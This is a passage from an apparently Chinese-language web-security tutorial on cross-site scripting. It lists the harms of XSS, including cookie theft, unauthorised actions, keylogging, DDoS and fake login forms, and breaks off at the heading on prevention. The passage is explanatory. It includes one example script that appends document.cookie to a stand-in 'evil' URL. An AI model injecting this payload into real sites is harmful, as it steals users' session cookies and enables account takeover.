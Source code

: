 <img style="padding: 10px 0;" src="/image/develop/web-security/web-security-stored-XSS.png" alt="反射型 XSS" width="1024" />

## 三、 XSS 的危害

### 窃取 cookie

攻击者通过注入代码发送 http 请求窃取用户 cookie

    <script>
        const adr = '../evil?cakemonster=' + escape(document.cookie);
    </script>

### 执行未授权操作

利用注入 Javascript 脚本，以用户身份执行未授权操作。例如，在一些有 XSS 漏洞的社交网站，进行加好友、发私信等操作。

#### 按键记录

注入代码，记录用户键盘输入信息，并通过 http 请求发送到攻击者指定服务器。

### DDos 攻击

在一些访问量大网站上 XSS 可以攻击一些小型网站，实现 DDoS 攻击效果。

### 钓鱼

攻击者可以利用漏洞注入 DOM，伪造登录框，诱导用户在本不需要登录的页面，去输入自己的用户名和密码。

### 四、XSS 防范
